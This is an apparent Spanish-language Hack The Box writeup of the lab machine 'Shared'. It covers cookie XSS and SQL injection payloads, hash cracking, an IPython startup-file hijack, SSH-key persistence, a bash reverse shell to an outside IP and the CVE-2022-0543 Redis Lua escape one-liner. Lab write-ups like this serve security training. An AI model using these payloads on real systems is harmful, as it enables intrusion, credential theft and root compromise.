


+++
author = "Andrés Del Cerro"
title = "Hack The Box: Shared Writeup | Medium"
date = "2024-08-07"
description = ""
tags = [
    "HackTheBox",
    "Shared",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "Enumerating PrestaShop",
    "Discovering Subdomains",
    "XSS",
    "SQL Injection",
    "Hash Cracking",
    "CVE-2022-21699",
    "User Pivoting",
    "Wireshark",
    "CVE-2022-0543"
]

+++

# Hack The Box: Shared Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Shared"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.250.135 --ulimit 5000 -g
10.129.250.135 -> [22,80,443]
```

```shell
$ nmap -p22,80,443 -sCV 10.129.250.135 -oN allPorts 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 13:22 CEST
Nmap scan report for 10.129.250.135
Host is up (0.036s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 91:e8:35:f4:69:5f:c2:e2:0e:27:46:e2:a6:b6:d8:65 (RSA)
|   256 cf:fc:c4:5d:84:fb:58:0b:be:2d:ad:35:40:9d:c3:51 (ECDSA)
|_  256 a3:38:6d:75:09:64:ed:70:cf:17:49:9a:dc:12:6d:11 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://shared.htb
443/tcp open  ssl/http nginx 1.18.0
| ssl-cert: Subject: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US
| Not valid before: 2022-03-20T13:37:14
|_Not valid after:  2042-03-15T13:37:14
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
| tls-alpn: 
|   h2
|_  http/1.1
|_http-title: Did not follow redirect to https://shared.htb
| tls-nextprotoneg: 
|   h2
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.09 seconds
```

Descubrimos el dominio `shared.htb` , lo añadimos al `/etc/hosts`

Con `openssl s_client -showcerts -connect shared.htb:443` podemos ver el certificado TLS, pero no encontramos nada relevante.

# UDP Enumeration

```shell
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.250.135 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 13:25 CEST
Nmap scan report for 10.129.250.135
Host is up (0.038s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
639/udp   closed msdp
782/udp   closed hp-managed-node
22611/udp closed unknown
27707/udp closed unknown
49198/udp closed unknown
54321/udp closed bo2k

Nmap done: 1 IP address (1 host up) scanned in 0.84 seconds
```

# HTTP Enumeration

```shell
$ whatweb http://shared.htb
http://shared.htb [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.250.135], RedirectLocation[https://shared.htb/], nginx[1.18.0]
https://shared.htb/ [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.250.135], RedirectLocation[https://shared.htb/index.php], nginx[1.18.0]
https://shared.htb/index.php [200 OK] Cookies[PHPSESSID,PrestaShop-5f7b4f27831ed69a86c734aa3c67dd4c], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], HttpOnly[PHPSESSID,PrestaShop-5f7b4f27831ed69a86c734aa3c67dd4c], IP[10.129.250.135], JQuery, Open-Graph-Protocol[website], PoweredBy[PrestaShop], PrestaShop[EN], Script[application/ld+json,text/javascript], Title[Shared Shop], X-UA-Compatible[ie=edge], nginx[1.18.0]
```

Parece un PrestaShop

> _PrestaShop_ is an Open Source e-commerce web application, committed to providing the best shopping cart experience for both merchants and customers

Por HTTPS me redirecciona al PrestaShop también.

Podemos comprobar si está el típico archivo `INSTALL.txt` para comprobar la versión del CMS.


Aunque en el footer.

Tras buscar por la versión encuentro varias vulnerabilidades, pero para la mayoría necesito estar autenticado. Existen algunas SQLi pero no es vulnerable parece ser.

Con `wfuzz` podemos enumerar subdominios, y encontramos uno, `checkout.shared.htb` , lo añadimos al `/etc/hosts`

```shell
$ wfuzz --hh=169 -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.shared.htb' http://shared.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shared.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                  
=====================================================================

000000001:   302        0 L      0 W        0 Ch        "www"                    
000002549:   200        64 L     151 W      3229 Ch     "checkout"               
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 0
Processed Requests: 2911
Filtered Requests: 2909
Requests/sec.: 0
```

Un poco extraño este subdominio, y cuando visualmente no tiene buena pinta es por algo..


Podemos añadir un producto al carrito desde el dominio principal y se ve reflejado en este subdominio.


Esto se esta realizando debido a una cookie llamada `custom_cart`


## XSS
Podemos hacer un URL Decode y modificar la cookie mas cómodamente.
`{"CRAAFTKP":"1"}`

Descubrimos un XSS si inyectamos una etiqueta `script` en el campo de cantidad
`{"CRAAFTKP":"<script>alert(1)</script>"}`


## SQL Injection
Pero la cosa se pone mas interesante, ya que si por ejemplo, modificamos el nombre del producto..
`{"NOEXISTO":"1"}`


Esto significa que se está haciendo una consulta por detrás a la base de datos, pasando el valor de esta cookie.
Podemos probar a hacer una SQLi básica de comprobación
`{" ' or 1=1-- -":"1"}`

Si me representa un objeto significa que esa consulta ha devuelto algo y por lo cual es vulnerable a SQLi.

Vaya..


A mi me gusta hacer scripts pero hoy he tenido un día movidito así que vamos a utilizar `sqlmap`, que tampoco es delito utilizarlo.

Tardamos un poco en conseguir el payload correcto con `sqlmap` pero tras unos minutos...
```shell
$ sqlmap --level 5 --risk 3 -u https://checkout.shared.htb/ --batch  --os='linux' --cookie='custom_cart={"*":"1"}' --dbms=mysql
....
sqlmap identified the following injection point(s) with a total of 2903 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: custom_cart={"' AND 6293=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- xuSZ":"1"}

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(0x7178787071,0x5555627a4458716f72716658504b706b58727a6f506a43436b414a5a547a656c42675a624f685453,0x7162627a71),NULL-- -":"1"}
---
[12:07:13] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12 (MariaDB fork)
[12:07:13] [INFO] fetched data logged to text files under '/home/pointedsec/.local/share/sqlmap/output/checkout.shared.htb'
```

# Enumerating Database -> Foothold
Y ya podemos ir enumerando con `sqlmap`
Podemos ver que hay dos bases de datos.
[*] checkout
[*] information_schema

En la base de datos `checkout` hay dos tablas.
[2 tables]
+---------+
| user    |
| product |
+---------+

Y dentro de la tabla `user` encontramos un registro
```
+----+----------------------------------+-------------+
| id | password                         | username    |
+----+----------------------------------+-------------+
| 1  | fc895d4eddc2fc12f995e18c865cf273 | james_mason |
+----+----------------------------------+-------------+
```

Podemos revisar en [hashes.com](https://hashes.com/en/decrypt/hash) y vemos que este hash ya había sido roto anteriormente.


Aunque con `hashcat` podríamos crackear este hash. Podemos hacer una búsqueda en Google y ver que en la versión 1.7 de PrestaShop se hasheaba las contraeñas en MD5, cosa que también podemos ver visualmente ya que el hash se parece.

```shell
 hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
 ...
 fc895d4eddc2fc12f995e18c865cf273:Soleil101                
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: fc895d4eddc2fc12f995e18c865cf273
Time.Started.....: Wed Aug  7 12:12:09 2024 (1 sec)
Time.Estimated...: Wed Aug  7 12:12:10 2024 (0 secs)
...
```

Bien, tenemos unas credenciales
`james_mason:Soleil101`

Mi idea era ganar acceso a través del PrestaShop, pero podemos iniciar sesión con estas credenciales a través del SSH.

```shell
$ sshpass -p 'Soleil101' ssh james_mason@shared.htb 
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:45:22 2022 from 10.10.14.4
james_mason@shared:~$ whoami
james_mason
```

# User Pivoting

Vemos que hay otro usuario en la máquina llamado `dan_smith`
```shell
james_mason@shared:/home$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
james_mason:x:1000:1000:james_mason,,,:/home/james_mason:/bin/bash
dan_smith:x:1001:1002::/home/dan_smith:/bin/bash
```

Podemos ver los archivos del directorio personal de trabajo de `dan_smith` y vemos un directorio `.ipython`


Encontramos algunos fallos de seguridad asociados a `ipython`

https://github.com/advisories/GHSA-pq7m-3gw7-gq5x

En principio, si tengo permiso de escritura en alguna parte del sistema donde el usuario `dan_smith` esté ejecutando `ipython` , podría ejecutar comandos como este usuario. 


Esto es porque `ipython < 8.0.0` ejecuta archivos sin importar de que usuario provengan que estén en el CWD (Current Working Directory). Por lo cual esto permitiría a un usuario ejecutar código como otro.

Bien, primero hay que saber que versión de `ipython` tiene la máquina víctima.
```shell
$  /usr/local/bin/ipython --version
8.0.0
```

Genial, ahora solo tenemos que descubrir donde podemos aprovecharnos de este fallo.

Como esto es un CTF, me imagino que habrá una tarea cron por detrás de este usuario, podemos compartirnos el `pspy64` y ejecutarlo en la máquina víctima.

Y vemos lo siguiente
```shell
2024/08/07 06:28:01 CMD: UID=1001  PID=2748   | 
2024/08/07 06:28:01 CMD: UID=1001  PID=2749   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython 
2024/08/07 06:28:01 CMD: UID=1001  PID=2750   | /usr/bin/python3 /usr/local/bin/ipython
```

Vemos que `dan_smith` está ejecutando `ipython` en el directorio `/opt/scripts_review` 
`dan_smith:x:1001:1002::/home/dan_smith:/bin/bash` -> UID 1001

Como pertenecemos al grupo `developers`, tenemos permiso de escritura en este directorio.
```shell
james_mason@shared:/opt$ ls -la
total 12
drwxr-xr-x  3 root root      4096 Jul 14  2022 .
drwxr-xr-x 18 root root      4096 Jul 14  2022 ..
drwxrwx---  2 root developer 4096 Jul 14  2022 scripts_review
james_mason@shared:/opt$ cd scripts_review/^C
james_mason@shared:/opt$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
```

Preparamos un archivo `/tmp/pwn.py` donde vamos a cargar esta reverse shell de [revshells.com](https://www.revshells.com/)


Creamos los directorios...
```shell
james_mason@shared:/tmp$ mkdir -m 777 /opt/scripts_review/profile_default
james_mason@shared:/tmp$ mkdir -m 777 /opt/scripts_review/profile_default/startup
```

Copiamos nuestro `pwn.py`
```shell
james_mason@shared:/tmp$ cp pwn.py /opt/scripts_review/profile_default/startup/.
```

Y nos ponemos en escucha con `pwncat-cs` por el puerto 443
```shell
$ sudo pwncat-cs -lp 443
```

Al cabo de unos segundos..
```shell
$ sudo pwncat-cs -lp 443
/usr/local/lib/python3.11/dist-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[12:37:00] Welcome to pwncat 🐈!                                           __main__.py:164
[12:37:01] received connection from 10.129.250.135:38510                        bind.py:84
[12:37:01] 0.0.0.0:443: normalizing shell path                              manager.py:957
[12:37:02] 10.129.250.135:38510: registered new host w/ db                  manager.py:957
(local) pwncat$ back
(remote) dan_smith@shared:/opt/scripts_review$ whoami
dan_smith
```

Y podemos leer la flag de usuario
```shell
(remote) dan_smith@shared:/home/dan_smith$ cat user.txt 
7d60bf7a99bbf213....
```

Al cabo de unos segundos perdemos la conexión, así que vamos a agregar mi clave pública de atacante al `/home/dan_smith/.ssh/authorized_keys` para asegurar persistencia.

```shell
$ cp /home/pointedsec/.ssh/id_rsa.pub  .
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/shared/content]
└──╼ [★]$ mv id_rsa.pub authorized_keys
```

Simplemente con `pwncat-cs` al recibir la conexión.

`upload authorized_keys /home/dan_smith/.ssh/authorized_keys`

Y ya podemos iniciar sesión mediante SSH.
```shell
$ ssh dan_smith@shared.htb
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:43:34 2022 from 10.10.14.4
dan_smith@shared:~$ whoami
dan_smith
```

# Privilege Escalation
Vemos que el usuario `dan_smith` pertenece a un grupo `sysadmin`

```shell
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
```

Encontramos un archivo asociado a este grupo.

```shel
dan_smith@shared:~$ find / -type f -group sysadmin  2>/dev/null 
/usr/local/bin/redis_connector_dev

```

El archivo es de `root` y cuando lo ejecutamos...
```shell
dan_smith@shared:~$ ls -la /usr/local/bin/redis_connector_dev
-rwxr-x--- 1 root sysadmin 5974154 Mar 20  2022 /usr/local/bin/redis_connector_dev
dan_smith@shared:~$ /usr/local/bin/redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:3380
run_id:1b607241f518d87566ae2fe57dd9eb15095b42fc
tcp_port:6379
uptime_in_seconds:4
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:11751358
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>
```

Me llama la atención el mensaje **Logging to redis instance using password...**

Esto significa que la contraseña debe de estar o dentro del binario, o por alguna parte de la máquina, así que vamos a descubrirlo.

Nos vamos a traer el binario a nuestra máquina.
```shell
$ file redis_connector_dev
redis_connector_dev: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=sdGIDsCGb51jonJ_67fq/_JkvEmzwH9g6f0vQYeDG/iH1iXHhyzaDZJ056wX9s/7UVi3T2i2LVCU8nXlHgr, not stripped
```

Vemos que es un binario ELF compilado en `Go`

Podríamos analizar el binario con `ghidra` pero como este binario intenta entablar una conexión por detrás, podemos con `wireshark` capturar el tráfico e intentar ver si la contraseña viaja en texto claro.

Para que se tramite la autenticación, primero se comprueba que existe un servicio redis, por lo cual.

```shell
sudo apt install redis-server
```

Iniciamos el servidor

```shell
$ redis-server
```

Y capturamos con `wireshark` utilizando el siguiente filtro:
`tcp.port == 6379`

Y al ejecutar el binario..


`F2WHqJUz2WEz=Gqq`

En la máquina víctima

Podemos comprobar que esta contraseña es válida.
```shell
dan_smith@shared:~$ redis-cli -h 127.0.0.1
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379>
```

Vemos que la versión de `redis-server` es la 6.0.15
```shell
127.0.0.1:6379> info server
# Server
redis_version:6.0.15
```

Tras investigar un rato, podemos encontrar un apartado en `vulhub` que contiene el CVE-2022-0543
https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md

En este one-liner sucede la magia.
```perl
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Y tenemos ejecución de comandos como `root`
```shell
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"
```

La vulnerabilidad surge debido a una configuración incorrecta en el entorno de Lua utilizado por Redis en los paquetes de Debian. Específicamente, los paquetes de Redis en Debian no aislaban adecuadamente el entorno de ejecución de Lua, permitiendo que scripts Lua accedieran a funciones peligrosas del sistema operativo.

Lua, al estar mal configurado, tenía acceso a ciertas bibliotecas internas de Lua que permiten la ejecución de código arbitrario

**`package.loadlib` y `ffi`**: Estas bibliotecas permiten cargar bibliotecas dinámicas del sistema y ejecutar código nativo, lo que un atacante puede utilizar para ejecutar código arbitrario en el servidor Redis.

Vamos a ganar la consola como `root`

Nos ponemos en escucha con `pwncat-cs` por el puerto 443
```shell
$ sudo pwncat-cs -lp 443
```

En la máquina víctima nos creamos un pequeño script `rev.sh`
```shell
dan_smith@shared:/tmp$ cat /dev/shm/rev.sh
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.91/443 0>&1"
```

Ejecutamos este script desde `redis` aprovechándonos de la vulnerabilidad encontrada anteriormente..

```shell
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash /dev/shm/rev.sh", "r"); local res = f:read("*a"); f:close(); return res' 0
```

```shell

(local) pwncat$ back
(remote) root@shared:/var/lib/redis# id
uid=0(root) gid=0(root) groups=0(root)
```

Podríamos leer la flag de `root`

```shell
(remote) root@shared:/var/lib/redis# cd /root
(remote) root@shared:/root# ls
c.sh  root.txt
(remote) root@shared:/root# cat root.txt
567b0aecc4a8a5d4c...
```

¡Y ya estaría!

Happy Hacking! 🚀